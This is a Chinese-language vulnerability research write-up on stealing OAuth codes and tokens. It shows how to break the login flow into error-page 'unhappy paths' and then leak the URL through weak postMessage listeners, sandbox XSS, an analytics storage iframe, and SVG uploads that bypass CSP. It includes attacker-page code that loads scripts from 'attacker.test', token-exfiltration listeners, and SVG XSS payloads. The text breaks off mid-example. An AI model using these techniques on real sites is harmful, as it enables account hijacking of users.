





声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

[TOC]


## 背景
本文仅以纪念我从事漏洞挖掘工作十年!感谢Egor Homakov和Nirgoldshlager,是他们带我打开了这一扇大门,这里向他们致敬!

https://web.archive.org/web/20130408005206/http://www.breaksec.com/?p=6039  <br>
https://web.archive.org/web/20130408011657/http://www.breaksec.com/?p=5753  <br>
https://web.archive.org/web/20130409071442/http://www.breaksec.com/?p=5734  <br>
https://homakov.blogspot.com/2013/03/redirecturi-is-achilles-heel-of-oauth.html?m=1  <br>
https://homakov.blogspot.com/2012/07/saferweb-most-common-oauth2.html?m=1  <br>
https://homakov.blogspot.com/2013/02/hacking-facebook-with-oauth2-and-chrome.html  <br>


当前(2022)又要怎样才能窃取Oauth tokens呢? <br>

使用OAuth结合响应类型切换、无效状态和重定向,再加上第三方javascript-inclusions，有多种容易受到攻击的场景，授权代码或令牌可能会泄露给攻击者,都会造成账户劫持;<br>
关于OAuth证书泄漏: <br>
跨源的“referer”泄露不再那么常见了，因为浏览器会删除除发出请求的域以外的所有其他信息。随着XSS审计器的引入，跨站点脚本编写(XSS)变得更加棘手(但并非完全不可能)。 <br>

内容安全策略(CSP)和受信任类型随后进入这个阶段。尽管如此，XSS也不是不可能的，但是有没有其他方法来窃取这些token呢? <br>
下面来解释一下它们是什么? <br>
很多网站允许你“用第三方登录”: <br>


您用于授权的这些第三方服务可以通过谷歌、苹果、Facebook、Twitter、Slack或任何其他提供商。它们都使用OAuth来发布某种形式的代码或令牌来验证用户对网站的身份。这允许您使用这些第三方服务之一登录，而无需提供任何登录凭据到您想要登录的网站。在本文中，我们将使用第三方服务提供商的网站登录流程称为“OAuth-dance”。<br>

有一个概念叫做“发送方约束的访问令牌”，特别是mTLS，以防止泄露的访问令牌的问题，但在这篇文章中不会讨论这个机制。<br>
## 解释不同的oauth-dance
### 响应类型
最常见的三种是: <br>

1.code + state: 该代码用于调用OAuth-provider服务器端以获得令牌。state参数用于验证正在进行操作的用户。OAuth-client负责在服务器端调用OAuth-provider之前验证状态参数。 <br>


2.id_token:这 是一个JSON Web令牌(JWT)，使用来自OAuth-provider的公共证书签名，以验证所提供的身份确实是它所声称的那个人。 <br>

3.令牌(token)。在服务端提供者(service provider.)的API中使用的访问令牌。 <br>

### 响应模式
在OAuth-dance中，授权流可以使用不同的模式向网站提供代码或令牌，以下是最常见的四种: <br>
1.查询.将查询参数重定向回网站(`https://example.com/callback?code=xxx&state=xxx`)。用于代码+状态。该代码只能使用一次，在使用该代码时，您需要OAuth客户端机密来获取访问令牌。不建议对令牌使用此模式，因为令牌可以多次使用，不应该出现在服务器日志或类似日志中。大多数OAuth-providers不支持令牌的这种模式，只支持代码。例子: <br>
apple使用`response_mode=query` 这种模式 <br>
google或者facebook使用`response_type=code` 这种模式 <br>

2.Fragment模式。使用Fragment重定向(`https://example.com/callback#access_token=xxx`)。在这种模式下，URL的Fragment部分不会出现在任何服务器日志中，只能使用javascript访问客户端。此响应模式用于令牌。例子: <br>
`response_mode=fragment`被苹果和微软所使用。 <br>
`response_type包含id_token或token`，由谷歌、Facebook、Atlassian和其他使用。 <br>

3.Web-message。使用postMessage锁定网站的固定来源: <br>
`postMessage('{“access_token”:“xxx”}',' https://example.com ')` <br>
如果得到支持，它通常可以用于所有不同的响应类型。例子: <br>
`response_mode=web_message`为苹果所使用。 <br>
`redirect_uri = storagerelay: / /……`是谷歌使用的方式。 <br>
`redirect_uri = https://staticxx.facebook.com/.../connect/xd_arbiter/.. `为Facebook所使用。 <br>


4.form-post.使用一个表单post到一个有效的redirect_uri，一个常规的post-request被发送回网站。这可以用于代码和标记。例子: <br>
`response_mode=form_post`由苹果所使用。 <br>
`ux_mode=redirect&login_uri=https://example.com/callback `被谷歌登录(GSI)使用。 <br>

一些OAuth提供者通过提供一个完整的围绕OAuth-dance的sdk包装器(如谷歌的GSI)简化了OAuth流程。这与id_token的常规OAuth流程完全相同。令牌通过form-POST或postMessage发送回网站。

## 通过postMessage窃取令牌的原理(A theory: stealing tokens through postMessage)

下面将深入挖掘这个理论的原理:

很长时间以来，我一直在寻找与postMessage实现相关的漏洞;我开发了一个[Chrome插件](https://github.com/fransr/postMessage-tracker)用于检测message,并为每个标签中的所有窗口简化检查所有`postmessage-listener`;

虽然发现的xss漏洞很少,但是其他的一些问题(比如no origin-checks)还是比较常见,但是这些问题似乎有没什么大的影响;

我的逻辑为: 带有弱源检查(weak origin-checks)或没有源检查(no origin-checks)的postMessage 监听器 将会泄露`location.href`; 而这是您正在访问的网站的URL;它会直接或间接地泄露到我可能能捕捉到它的其他地方。

例如，在一个常规的开始页面上，可以尝试获得一个OAuth代码或令牌待在网站的一个页面上，而这个网页是有上面所阐述的对应的postmessage 监听器的,然后，通过从不同的选项卡发送消息并获取位置，我将能够从监听器获得令牌。如果其返回了，我们就能偷到OAuth的tokens，而不需要利用任何XSS漏洞。

这种窃取当前URL的方法别具一格，但让URL敏感的最常见方法似乎是关注登录流。

为了进一步研究，我做了以下工作:

1.在赏金漏洞平台测试所有受欢迎项目的登陆过程

2.如果他们使用任何第三方OAuth提供者，保存他们使用的登录URL，包含所有提供者的客户端id、响应类型/模式和重定向uri。

3.注意网站上是否加载了任何postmessage -listener或任何其他第三方脚本。

4.下面就开始吧

当收集网站使用OAuth-providers的所有不同方式时，有一些可能的选择和组合，不同的网站决定使用不同的回应类型和模式组合。我主要将我的注意力集中在最受欢迎的oauth -provider上，然后看看是否可以基于其他限定符过滤网站。

## OAuth-dance中的一些问题

首先,解释破解oauth-dance的各种方法,这里主要是指导致OAuth-provider发布有效codes或令牌之间的差异;但从提供商获得令牌的网站没有成功地接收和处理令牌。我将在下文将其称为“不愉快的路径”。

在一次成功的“舞蹈”中，令牌将从网站的URL中删除。确保codes或令牌没有被网站正确地使用是让这种攻击起作用的第一步，因为我想自己窃取并使用codes或令牌。

这可能会产生各种各样的结果，但我们的想法是，最终会出现某种形式的错误页面或类似的错误页面，仍然加载第三方javascript，使得令牌泄漏。

有多种方法可以破解OAuth-dance,这些不同的方法本身没有任何影响，但如果受害者最终将codes或令牌仍然放在URL中，并与`location.href`链接在一起。他们就会变得很重要。


## 破解State

OAuth规范建议将状态参数与response_type=code结合使用，以确保发起流的用户也是在OAuth-dance之后使用code发出令牌的用户。

如果状态值无效，code将不会被使用，因为验证状态是网站的责任;这意味着，如果攻击者可以向具有有效攻击状态的受害者发送登录流链接，那么受害者的oaut-dance将失败，code将永远不会发送给oaut-provider。如果攻击者能得到code，code仍然可以使用。

- 攻击者以“X用户登录”的形式在网站上启动登录流程。
- 攻击者使用状态值，并为受害者构造一个链接，让他们用OAuth-provider登录，但使用攻击者的状态。
- 受害者用链接登录后被重定向回网站。
- 网站为受害者验证状态，并停止处理登录流，因为它不是一个有效的状态。受害者的页面出现错误。
- 攻击者会找到从错误页面泄漏代码的方法。
- 攻击者现在可以用自己的状态和从受害者泄露的code登录。


## 响应类型与响应模式 切换

改变OAuth-dance的响应类型或响应模式将影响code或令牌返回网站的方式，大多数情况下会导致意想不到的行为,我还未看到任何OAuth-provider有限制网站支持的响应类型或模式的选项，通常至少有两种或更多的OAuth-provider可以尝试进行更改。


还可以请求多个响应类型。有一个[规范](https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding) 解释了当请求多个响应类型时，如何向redirect-uri提供值:


如果在一个请求中，response_type只包含要求服务器返回在查询字符串中完全编码的数据的值，那么这个多值response_type的响应中返回的数据必须在查询字符串中完全编码。此建议同时适用于成功响应和错误响应。 <br>
如果在一个请求中，response_type包含任何要求服务器返回在片段中完全编码的数据的值，那么响应中这个多值response_type返回的数据必须在片段中完全编码。此建议同时适用于成功响应和错误响应。


如果遵循了这个规范，这意味着你可以要求发送code参数到网站，但如果你同时也要求`id_token`，代码参数将在片段部分而不是在查询字符串中发送。


对于谷歌的登录,是这样的:

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?
client_id=client-id.apps.googleusercontent.com&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback&
scope=openid%20email%20profile&
response_type=code&
access_type=offline&
state=yyy&
prompt=consent&flowName=GeneralOAuthFlow
```

将重定向到`https://example.com/callback?code=xxx&state=yyy`


但是:
```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?
client_id=client-id.apps.googleusercontent.com&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback&
scope=openid%20email%20profile&
response_type=code,id_token&
access_type=offline&
state=yyy&
prompt=consent&flowName=GeneralOAuthFlow

```

将重定向到`https://example.com/callback#code=xxx&state=yyy&id_token=zzz`

苹果也是同样的逻辑:

```
https://appleid.apple.com/auth/authorize?
response_type=code&
response_mode=query&
scope=&
state=zzz&
client_id=client-id&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback
```

将被重定向到`https://example.com/callback?code=xxx&state=yyy`，

但是:

```
https://appleid.apple.com/auth/authorize?
response_type=code+id_token&
response_mode=fragment&
scope=&
state=zzz&
client_id=client-id&
redirect_uri=https%3A%2F%2Fexample.com%2Fcallback

```

将你重定向到`https://example.com/callback#code=xxx&state=yyy&id_token=zzz`

## Redirect-uri情况变化

一些OAuth-providers允许在redirect_uri的路径中进行大小写转换，而不是真正遵循保护基于重定向的流的[规范](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics-19#section-2.1):


当比较客户端重定向uri和预先注册的uri时，授权服务器必须在本机应用的localhost重定向uri中使用精确的字符串匹配(除了端口号)，参见章节4.1.3。该措施有助于防止授权码和访问令牌的泄漏(见第4.1节)。它还可以帮助检测混淆攻击(参见4.4节)。

这意味着，将`https://example.com/callback` 配置为应用程序的重定向uri，以下流程仍然可以工作:


```
https://oauthprovider.example.com/oauth2/v2.0/authorize?
response_type=id_token&
client_id=client-id&
redirect_uri=https://example.com/CaLlBaCk&
scope=openid%20profile%20email&
nonce=1&
state=yyy

```

将你重定向到:`https://example.com/CaLlBaCk#id_token=xxx` ;我测试过的所有网站都没有使用不区分大小写的路径，所以切换路径会触发不愉快的路径，显示错误或重定向到仍然存在片段的登录页面。

还请注意，使用`response_type=code`更难利用这种方式。在一个正确的OAuth-dance使用代码中，在从服务提供者获得访问令牌的最后一步中，还必须提供redirect_uri来对服务提供者进行验证。如果在舞蹈中使用的redirect_uri与网站发送给提供商的值不匹配，将不会发出访问令牌。但是，使用任何其他响应类型，比如token或id_token，都不需要最后一步的验证，因为token是在重定向中直接提供的。

## Redirect-uri附加路径

一些OAuth-providers允许将额外的数据添加到redirect_uri的路径中。这也与“Redirect-uri case shift”一样以相同的方式打破了规范。例如，有一个`https://example.com/callbackredirect uri`，发送:

```
response_type=code&
redirect_uri=https://example.com/callback%3fcode=xxx%26
```

在这些情况下会被重定向到`https://example.com/callback?code=xxx&code=real-code` 根据网站接收多个相同名称的参数，这也可能会触发一个不愉快的路径。同样适用于token和id_token:


```
response_type=code&
redirect_uri=https://example.com/callback%23id_token=xxx%26
```

结果是https://example.com/callback#id_token=xxx&id_token=real-id_token。根据javascript在有多个相同名称的参数时获取片段参数，这也可能会以一个不愉快的路径结束。

## Redirect-uri错误配置

在收集所有包含redirect_uri值的登录url时，还可以测试其他重定向uri值是否也有效。在我测试的网站上保存的125个不同的谷歌登录流中，有5个网站的开始页也作为一个有效的redirect_uri。例如，如果redirect_uri=https://auth.example.com/callback是一个正在使用的，在这5种情况下，这些也是有效的:

- redirect_uri=https://example.com/
- redirect_uri=https://example.com
- redirect_uri=https://www.example.com/
- redirect_uri=https://www.example.com

这对于实际使用id_token或token的网站来说特别有趣，因为response_type=code仍然会让OAuth-provider在获取令牌时在OAuth-dance的最后一步验证redirect_uri。

现在我为所有网站收集了“一堆不愉快的路径”。以下是我看到的不同案例:

1.最后出现在错误页面上。

2.重定向到网站的登录页面。

3.1重定向到网站的开始页。

3.2重定向回已删除参数的登录页面。

4.重定向回OAuth-provider，但要使用正确的值，包括正确的响应类型和状态，基本上可以识别出这个流程是无效的并重新尝试。


计划是专注于1、2和3.1，因为它们的参数仍然保存在URL中。我还得出结论，避免“不愉快路径”的最佳方案是第4条。

现在是时候开始寻找泄露信息的方法了。我仍然没有发现真正的漏洞，我甚至不知道在这样做是否值得。

由于postMessage-listener插件还记录页面上的iframe是否有侦听器，所以我开始关注那些在URL中有令牌的窗口中frame里面至少有一个postMessage-listener的网站。

## URL-leaking gadgets

我将把泄漏URL的不同方法归类为不同的gadget，因为它们具有不同的属性。让我们回顾一下我已经确定的不同类型。

### Gadget 1 : 泄露URL的弱的或者没有origin-check的 postMessage-listeners


这是预期的。其中一个例子是某网站的sdk，它被加载至网站上:


这个SDK公开了一个postMessage-listener，当消息类型匹配时，它发送以下消息:


从不同的来源发送消息给它:

```
openedwindow = window.open('https://www.example.com');
...
openedwindow.postMessage('{"type":"sdk-load-embed"}','*');
```

在发送包含位置的消息的窗口中将显示一条响应消息。网站location.href 为:


攻击中可以使用的流取决于登录流如何使用代码和令牌，但其思路是:


>攻击场景

1.攻击者向受害者发送一个精心制作的链接，该链接已经准备好导致OAuth-dance中的一个不愉快路径。

2.受害者点击链接。新的选项卡打开的以一个网站的oauth提供者来进行登录的流程被利用

3.不愉快的路径在被利用的网站上被触发，脆弱的postmessage -监听器加载在受害者登陆的页面上，仍然带有URL中的code或令牌。

4.攻击者发送的原始标签发送一堆postmessages至网站的新标签从而获得postmessage -listener泄漏的当前的URL

5.攻击者发送的原始标签，然后侦听发送给它的消息。当URL在消息中返回时，代码和令牌将被提取并发送给攻击者。

6.攻击者使用代码或令牌冒充受害者登录，最终走上不愉快的道路。


### Gadget 2:  sandbox/第三方域上的XSS获取URL


示例1，从沙盒框架中窃取`window.name`

5月12日，我用这个报告了在野外发现的第一条链:


巧合的是，两天后，也就是5月14日，Youssef Sammouda发表了一篇很棒的博客文章，解释了他使用Gmai劫持Facebook账户的方法(注: https://ysamm.com/?p=763,译文:https://mp.weixin.qq.com/s/bG0DF3tO68gFksp1rm1DFw)。这篇博客文章描述了一个类似流程。然而，这个bug并不是关于oauth -dance相关的，而是通过使用`iframe:d`沙盒域泄露受害者最终的URL，该沙盒域也允许加载任意javascript。沙箱访问URL中的敏感数据的原因是，当iframe加载时，它被附加到沙箱URL。


我发现的案例则有点不同。

第一个是在OAuth-dance结束的页面上加载iframe。iframe是window.location-object序列化之后的版本。这是一种旧的跨域传输数据的方法，因为iframe中的页面可以得到由父节点设置的自己的`window.name`:

```
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```


在iframe中加载的域也有一个简单的XSS:

```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```

正如Youssef解释的那样，如果你在一个窗口的一个域上有一个XSS，这个窗口就可以到达其他相同来源的窗口，如果这些窗口之间有父/子/打开者关系。


在我的例子中，我做了以下操作:

1.创建了一个恶意的页面，嵌入沙盒的iframe用XSS加载我自己的脚本:

```
<div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
x=createElement('script'),
x.src='//attacker.test/inject.js',
document.body.appendChild(x);" 
style="border:0;width:500px;height:500px"></iframe></div>

```

在加载到沙盒的我的脚本中，我用受害者使用的链接替换了内容:

```
document.body.innerHTML = 
'<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';

```

我写了一个脚本,周期性检查这个链接是否打开了,我想达到的iframe是有获得window.name设置的与iframe同源的在攻击者的页面上的iframe:


```
 x = setInterval(function() {
if(parent.window.b &&
 parent.window.b.frames[0] &&
 parent.window.b.frames[0].window &&
 parent.window.b.frames[0].window.name) {
   top.postMessage(parent.window.b.frames[0].window.name, '*');
   parent.window.b.close();
   clearInterval(x);
}
}, 500);
```

然后攻击者页面就可以只听我们用window.name发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + e.data;
 }
});
</script>

```

### Gadget 2:  示例2  带有XSS的iframe +父源检查

第二个例子是用postMessage加载了带有xss的不愉快路径的iframe;但是messages只允许来自它的父窗口的位置加载它，当iframe向父窗口请求initConfig时，location.href被发送到iframe。
主窗口像这样加载iframe:

`<iframe src="https://challenge-iframe.example.com/"></iframe>`

内容是这样的(了更好地解释攻击，这里进行了简化):

```

<script>
window.addEventListener('message', function (e) {
  if (e.source !== window.parent) {
    // not a valid origin to send messages
    return;
  }
  if (e.data.type === 'loadJs') {
    loadScript(e.data.jsUrl);
  } else if (e.data.type === 'initConfig') {
    loadConfig(e.data.config);
  }
});
</script>
```

在这种情况下，我可以做一个类似的方法，就像第一个例子:

创建一个恶意页面，嵌入了一个沙盒的iframe，附加一个onload，在iframe加载时触发脚本。


```
<div id="leak"><iframe
id="i" name="i"
src="https://challenge-iframe.example.com/"
onload="run()"
style="border:0;width:500px;height:500px"></iframe></div>

```


因为恶意页面是iframe的父节点，所以它(恶意页面)可以通过postMessage向iframe发送消息来加载我们的脚本:  （我的理解:上面的那个页面为恶意页面，里面有iframe标签）


```
<script>
function run() {
  i.postMessage({type:'loadJs',jsUrl:'https://attacker.test/inject.js'}, '*')
}
</script>
```


在我的脚本加载到沙盒中，我用受害者的链接替换了内容:


```
document.body.innerHTML = '<a href=" " onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a >';
```
周期性启动一个脚本，以检查链接是否打开，以及我想要到达的iframe是否存在，并在iframe和主窗口中运行javascript。然后我附加了一个postmessage-listener（onmessage），将消息传递回恶意窗口中的iframe:

```

x = setInterval(function() {
  if(b && b.frames[1]) {
    b.frames[1].eval(
      'onmessage=function(e) { top.opener.postMessage(e.data, "*") };' +
      'top.postMessage({type:'initConfig'},"*")'
    )
    clearInterval(x)
  }
}, 500);

```

使得iframe加载的攻击者页面，可以监听我从主窗口的iframe注入postMessage-listener代理发送的消息:


```
<script>
window.addEventListener('message', function (e) {
 if (e.data) {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>

```

## Gadget 3:使用API来获取界外的URL


Gadget 3是最有趣的,把受害者送到某个地方然后从另一个地方获取敏感数据，

### example 1 没有原点检查的存储框架

第一个示例使用外部服务跟踪数据。这个服务添加了一个“storage iframe”:

```
<iframe
  id="tracking"
  name="tracking"
  src="https://cdn.customer1234.analytics.example.com/storage.html">
</iframe>
```
主窗口将使用postMessage与iframe对话，发送跟踪数据，这些跟踪数据将保存在storage.html所在的localStorage中:


```

tracking.postMessage('{"type": "put", "key": "key-to-save", "value": "saved-data"}', '*');
```
主窗口也可以获取以下内容:

```
tracking.postMessage('{"type": "get", "key": "key-to-save"}', '*');
```


当初始化加载iframe时，使用location.href保存用户最后一个位置的键:


```
tracking.postMessage('{"type": "put", "key": "last-url", "value": "https://example.com/?code=test#access_token=test"}', '*');

```


如果你能和origin对话并且让它给你发送内容,location. href可以从这个存储中获取; 服务的postmessage监听器有一个屏蔽列表和一个白名单列表。似乎分析服务允许网站去定义这些列表:


```JavaScript
var blockList = [];
var allowList = [];
var syncListeners = [];

window.addEventListener('message', function(e) {
  // If there's a blockList, check if origin is there and if so, deny
  if (blockList && blockList.indexOf(e.origin) !== -1) {
    return;
  }
  // If there's an allowList, check if origin is there, else deny
  if (allowList && allowList.indexOf(e.origin) == -1) {
    return;
  }
  // Only parent can talk to it
  if (e.source !== window.parent) {
    return;
  }
  handleMessage(e);
});

function handleMessage(e) {
  if (data.type === 'sync') {
    syncListeners.push({source: e.source, origin: e.origin})
  } else {
  ...
}

window.addEventListener('storage', function(e) {
  for(var i = 0; i < syncListeners.length; i++) {
    syncListeners[i].source.postMessage(JSON.stringify({type: 'sync', key: e.key, value: e.newValue}), syncListeners[i].origin);
  }
}

```


此外，如果有一个基于allowList的有效源，你还可以请求同步，这将在此窗口中向您发送对localStorage所做的任何更改。


拥有存储的网站在加载OAuth-dance的不愉快路径时，并没有定义allowList-origins;这允许任何源与postMessage-listener通信，如果源是窗口的父源。方法与Gadget2类似 :


我创建了一个恶意页面，它嵌入了存储容器的iframe，并附加了一个onload，以便在加载iframe时触发脚本。


代码如下:
```html
<div id="leak"><iframe
id="i" name="i"
src="https://cdn.customer12345.analytics.example.com/storage.html"
onload="run()"></iframe></div>
```
由于恶意页面现在是iframe的父页面，并且在allowList中没有定义任何起源，因此恶意页面可以向iframe发送消息，告诉存储发送对存储的任何更新的消息。我还可以添加一个监听器到恶意页面，以监听任何来自存储的同步更新:


```JavaSCript
<script>
function run() {
  i.postMessage({type:'sync'}, '*')
}
window.addEventListener('message', function (e) {
 if (e.data && e.data.type === 'sync') {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>
```
该恶意网页还会包含一个普通链接，供受害者点击:

```html
<a href=" "
target="_blank">Click here to hijack token</a >';

```

受害者会点击链接，通过OAuth-dance，最终在加载跟踪脚本和存储框架的不愉快路径上结束。
存储iframe获得last-url的更新。因为更新了`localStorage`，所以`window.storage-event`会在恶意页面的iframe中触发，现在每当存储发生变化时，恶意页面就会得到一个带有受害者当前URL的postMessage:


### Gadget 3 ：示例2，客户在没有origin检查的情况下混淆了CDN-DIY存储-svg


由于分析服务本身就有漏洞，我也很有兴趣看看我是否能找到一种方法来泄漏那些为存储框架配置了正确来源的网站的url。


当我开始在线搜索`CDN.analytics.example.com-domain`时，没有客户的部分，我注意到这个CDN也包含了服务客户上传的图片:


```
https://cdn.analytics.example.com/img/customer42326/event-image.png
https://cdn.analytics.example.com/img/customer21131/test.png
```


我还注意到有svg文件作为内联的内容类型:image/svg+xml在这个CDN:


```
https://cdn.analytics.example.com/img/customer54353/icon-register.svg
```

我注册了一个试用用户，上传了我自己的资产，也显示在CDN上:


```
https://cdn.analytics.example.com/img/customer94342/tiger.svg
```

如果您随后对CDN使用特定于客户的子域，则仍然会提供image。这个URL（会起作用）:

```
https://cdn.customer12345.analytics.example.com/img/customer94342/tiger.svg
```




这意味着ID为94342的客户可以在客户12345的存储中渲染svg文件。
我上传了一个带有简单xss有效载荷的svg文件:

```
https://cdn.customer12345.analytics.example.com/img/customer94342/test.svg


```

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg id="svg2" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewbox="0 0 500 500" width="100%" height="100%" version="1.1">
<script xlink:href="data:,alert(document.domain)"></script>
</svg>
```


CDN为`img/`下的所有内容添加了一个`Content-Security-Policy: default-src 'self'-header`。你还可以看到服务器头文件中提到了S3，这表明内容被上传到了S3桶中:


S3的一个有趣的性质是，目录在S3中并不是真正的目录;键之前的路径称为“前缀”。这意味着S3不关心/是否经过URL编码，如果您对URL中的每个斜杠进行URL编码，它仍然会提供内容。如果我将URL中的img/更改为img%2f，仍然可以解析图像。然而，在这种情况下，csp头被删除，XSS触发:





然后，我可以上传一个SVG，它将创建与常规的storage.html相同的storage-handler和postMessage-listener形式，但会创建一个空的allowList。这让我能够进行同样的攻击，即使是在那些正确定义了可以与存储对话的允许源的网站上。
我上传了一个像这样的SVG:


```

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg id="svg2" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewbox="0 0 5 5" width="100%" height="100%" version="1.1">
<script xlink:href="data:application/javascript;base64,dmFyIGJsb2NrTGlzdCA9IFtdOwp2YXIgYWxsb3dMaXN0ID0gW107Ci4uLg=="></script>
</svg>
```

然后，我可以使用与示例1相同的方法，但在iframe中嵌入的不是 storage.html，而是SVG与url编码斜杠:


```html

<div id="leak"><iframe
id="i" name="i"
src="https://cdn.customer12345.analytics.example.com/img%2fcustomer94342/listener.svg"
onload="run()"></iframe></div>


```


由于没有网站能够自己修补这个问题，我转而向负责CDN的分析供应商发送了一份报告:、


在第三方上查看错误配置的bug的整个想法主要是确认有多种方法来实现令牌的泄漏，因为第三方有一个bug赏金，这只是同一种bug的不同接收者，不同的是，影响是针对分析服务的所有客户。在这种情况下，第三方的客户实际上有能力正确地配置该工具，使其不向攻击者泄漏数据。然而，由于敏感数据仍然被发送给第三方，所以看看是否有某种方法可以完全绕过客户对工具的正确配置是很有趣的。


### Gadget 3 示例3 chat-widget API

最后一个例子是基于chat-widget小部件，它出现在网站的所有页面上，甚至包括错误页面。有多个postmessage-监听器，其中一个没有适当的origin检查，只允许你启动聊天弹出框。另一个监听器对chat-widget进行严格的origin检查，以接收初始化调用和当前用户使用的chat-api-令牌。


```html
<iframe src="https://chat-widget.example.com/chat"></iframe>
<script>
window.addEventListener('message', function(e) {
  if (e.data.type === 'launch-chat') {
    openChat();
  }
});

function openChat() {
  ...
}

var chatApiToken;
window.addEventListener('message', function(e) {
  if (e.origin === 'https://chat-widget.example.com') {
    if (e.data.type === 'chat-widget') {
      if (e.data.key === 'api-token') {
        chatApiToken = e.data.value;
      }
      if(e.data.key === 'init') {
        chatIsLoaded();
      }
    }
  }
});

function chatIsLoaded() {
  ...
}

```


当chat-iframe加载时:


1.如果聊天小部件的localStorage中存在一个聊天api令牌，它将使用postMessage将这个api令牌发送给它的父组件。如果没有chat-api令牌存在，它就不会发送任何东西。

2.当iframe加载后，它将发送一个带有`{"type": "chat-widget"， "key": "init"}`的postMessage给它的父组件。


如果你点击主窗口的聊天图标:

1.如果chat-api-令牌还没有被发送，那么chat-widget会创建一个令牌，并将其放在自己的源的localStorage中，并将其postMessage发送给父窗口。


2.然后父窗口将对聊天服务进行api调用。api接口被cors限制为服务配置的特定网站。您必须为api调用提供一个有效的带有chat-api-令牌的origin头，以允许发送请求。


3.来自主窗口的api调用将包含location.href并使用chat-api-token将其注册为访问者的“当前页面”。然后，响应将包含一些令牌，以连接到一个websocket来启动聊天会话:


```json
{
  "api_data": {
    "current_page": "https://example.com/#access_token=test",
    "socket_key": "xxxyyyzzz",
    ...
  }
}

```


在这个例子中，我意识到chat-api-令牌的声明总是会通知给chat-widget iframe的父组件，如果我得到了chat-api-令牌，我就可以使用令牌发出服务器端请求，然后将我自己的人工Origin-header添加到api调用中，因为CORS-header只对浏览器重要。这将导致以下逻辑:


创建了一个嵌入chat-widget的iframe的恶意页面，添加了一个postMessage-listener来监听聊天api令牌。此外，如果我没有在2秒内获得api令牌，触发一个事件来重新加载iframe。这是为了确保我也支持从未发起过聊天的受害者，因为我可以触发远程打开聊天，所以我首先需要聊天api令牌从服务器端开始轮询聊天api中的数据。


```html

<div id="leak"><iframe
id="i" name="i"
src="https://chat-widget.example.com/chat" onload="reloadToCheck()"></iframe></div>
<script>
var gotToken = false;
function reloadToCheck() {
  if (gotToken) return;
  setTimeout(function() {
    document.getElementById('i').src = 'https://chat-widget.example.com/chat?' + Math.random();
  }, 2000);
}
window.onmessage = function(e) {
  if (e.data.key === 'api-token') {
    gotToken = true;
    lookInApi(e.data.value);    
  }
}
launchChatWindowByPostMessage();
</script>
```


2.添加了一个链接到恶意页面，以打开登录流，该登录流最终会出现在页面上，URL中带有令牌的chat-widget:
